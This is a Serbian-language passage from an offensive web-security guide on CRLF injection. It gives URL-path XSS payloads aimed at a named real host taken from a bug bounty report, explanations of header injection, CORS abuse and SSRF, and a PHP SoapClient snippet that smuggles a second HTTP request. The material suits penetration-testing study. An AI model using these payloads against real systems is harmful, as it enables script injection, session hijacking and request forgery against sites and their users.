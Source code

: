 #### U URL putanji

Možete poslati payload **unutar URL putanje** da biste kontrolisali **odgovor** sa servera (primer sa [ovde](https://hackerone.com/reports/192667)):

```
http://stagecafrstore.starbucks.com/%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E
http://stagecafrstore.starbucks.com/%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
```

Proverite više primera u:

{% embed url="https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/crlf.md" %}

### HTTP Ubacivanje Zaglavlja

HTTP ubacivanje zaglavlja, često iskorišćeno putem CRLF (Carriage Return and Line Feed) ubacivanja, omogućava napadačima da ubace HTTP zaglavlja. Ovo može narušiti mehanizme bezbednosti poput XSS (Cross-Site Scripting) filtera ili SOP (Same-Origin Policy), potencijalno dovodeći do neovlašćenog pristupa osetljivim podacima, poput CSRF tokena, ili manipulacije korisničkih sesija putem ubacivanja kolačića.

#### Iskorišćavanje CORS putem HTTP Ubacivanja Zaglavlja

Napadač može ubaciti HTTP zaglavlja kako bi omogućio CORS (Cross-Origin Resource Sharing), zaobilazeći ograničenja nametnuta od strane SOP. Ova ranjivost omogućava skriptovima sa zlonamernih izvora da interaguju sa resursima sa drugog izvora, potencijalno pristupajući zaštićenim podacima.

#### SSRF i Ubacivanje HTTP Zahteva putem CRLF

CRLF ubacivanje može se koristiti za kreiranje i ubacivanje potpuno novog HTTP zahteva. Značajan primer ove ranjivosti je u PHP-ovoj klasi `SoapClient`, posebno unutar parametra `user_agent`. Manipulacijom ovog parametra, napadač može ubaciti dodatna zaglavlja i sadržaj tela, ili čak ubaciti potpuno novi HTTP zahtev. U nastavku je PHP primer koji demonstrira ovu eksploataciju:

```php
$target = 'http://127.0.0.1:9090/test';
$post_string = 'variable=post value';
$crlf = array(
'POST /proxy HTTP/1.1',
'Host: local.host.htb',
'Cookie: PHPSESSID=[PHPSESSID]',
'Content-Type: application/x-www-form-urlencoded',
'Content-Length: '.(string)strlen($post_string),
"\r\n",
$post_string
);

$client = new SoapClient(null,
array(
'uri'=>$target,
'location'=>$target,
'user_agent'=>"IGN\r\n\r\n".join("\r\n",$crlf)
)
);

# Put a netcat listener on port 9090
$client->__soapCall("test", []);
```
